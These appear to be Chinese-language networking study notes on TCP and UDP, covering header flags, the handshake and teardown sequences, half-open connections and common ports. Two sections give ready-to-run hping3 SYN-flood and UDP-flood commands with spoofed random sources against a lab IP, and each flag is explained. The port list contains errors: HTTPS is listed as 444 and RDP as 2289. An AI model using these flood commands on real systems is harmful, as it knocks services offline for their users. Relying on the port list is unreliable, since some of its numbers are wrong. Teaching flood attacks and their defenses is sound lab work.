



# 传输层协议

## 一、传输层

### 1. 传输层功能

- 定义应用层协议数据的端口号，流量控制
- 对原始数据进行分段处理

### 2. 传输层提供的服务

- 传输连接服务：建立连接
- 数据传输服务：流量控制、差错控制、序列控制

## 二、TCP协议（面向连接）

### 1. 面向连接

- 要求数据在传输以前必须建立连接，数据传输完成后，必须释放来连接
- 仅支持单播传输：在两个终端之间建立的点对点连接

### 2. TCP报文字段



-  URG：紧急标志位，说明紧急指针有效。
-  ACK：确认标志位， 取1时表示应答字段有效，也即TCP应答号将包含在TCP段中，为0则反之。
- RST：复位标志，用于重建一个已经混乱的连接，用来复位产生错误的连接，也会用来拒绝错误和非法的数据包。
-  SYN：同步标志，该标志仅在三次握手建立TCP连接时有效，只在三次握手的前两次为1。
-  FIN：结束标志，表示发送端已经发送到数据末尾，数据传送完成，发送FIN标志位的TCP段，连接将被断开。

### 3.TCP建立连接的 三次握手



- acknowledge number：表示的是期望的对方（接收方）的下一次sequence number是多少。
- TCP 协议规定SYN报文虽然不携带数据， 但是也要消耗1个序列号， 所以前两次握手客户端和服务端都需要向对方回复 x+1 或 y+1 。

### 4. TCP释放连接的四次挥手



- 第一次挥手：A数据传输完毕需要断开连接，A的应用进程向其TCP发出连接释放报文段（FIN = 1,序号seq = u）,并停止再发送数据，主动关闭TCP连接，进入FIN-WAIT-1状态，等待B的确认。

- 第二次挥手：B收到连接释放报文段后即发出确认报文段（ACK=1，确认号ack=u+1,序号seq=v）,B进入CLOSE-WAIT关闭等待状态,此时的TCP处于半关闭状态，A到B的连接释放。而A收到B的确认后，进入FIN-WAIT-2状态，等待B发出的连接释放报文段。
- 第三次挥手：当B数据传输完毕后，B发出连接释放报文段（FIN = 1，ACK = 1，序号seq = w,确认号ack=u+1）,B进入LAST-ACK（最后确认）状态，等待A 的最后确认。
- 第四次挥手：A收到B的连接释放报文段后，对此发出确认报文段（ACK = 1，seq=u+1，ack=w+1）,A进入TIME-WAIT（时间等待）状态。此时TCP未释放掉，需要经过时间等待计时器设置的时间2MSL后，A才进入CLOSE状态。

 ### 5. TCP半关闭状态

- TCP提供了连接的一端在结束它的发送后还能接收来自另一端数据的能力。

### 6. TCP半连接状态

- 如果A向B发起链接，B也按照正常情况响应了，但是A不进行三次握手，这就是半连接。

### 7. TCP常见端口号

- 21号：FTP
- 22号：SSH
- 23号：TELNET
- 25号：SMTP
- 53号*：DNS
- 80号：HTTP
- 110号：POP3
- 143号：IMAP4
- 444号：HTTPS
- 3306号：MYSQL
- 2289号：RDP

### 8. SYN　Flood洪水攻击

- 实施
  - 在kali上使用hping3工具

```
hping3 -c 1000 -d 120 -S -w 64 -p 80 --flood --rand-source 192.168.2.100
-c:发送数据包数量
-d:发送数据包大小
-S（大写）:只发送SYN报文
-w:窗口大小
-p:目标端口
192.168.2.100:服务器IP
```

- 防御
  - 使用TCP代理
  - TCP源探测（下一代防火墙）

## 三、UDP协议（用户数据报协议）

### 1. 特定

- 不需要建立连接，直接发送数据，不会去重新排序，不需要确认

### 2. 报文字段

- 源端口
- 目标端口
- UDP长度
- UDP校验和

### 3. 常见的UDP端口号

- 53号：DNS
- 69号：TFTP
- 111号：RPC（远程过程调用）
- 123号：NTP
- 161号：SNMP（网络管理协议）

### 4. Flood攻击

```
hping3 -q -n --rand-source --udp -p 53 --flood 192.168.2.100 -d 10000
-q:安静模式
-n:数字化输出
--rand-source:随机源IP地址
-p:指定目标端口
```


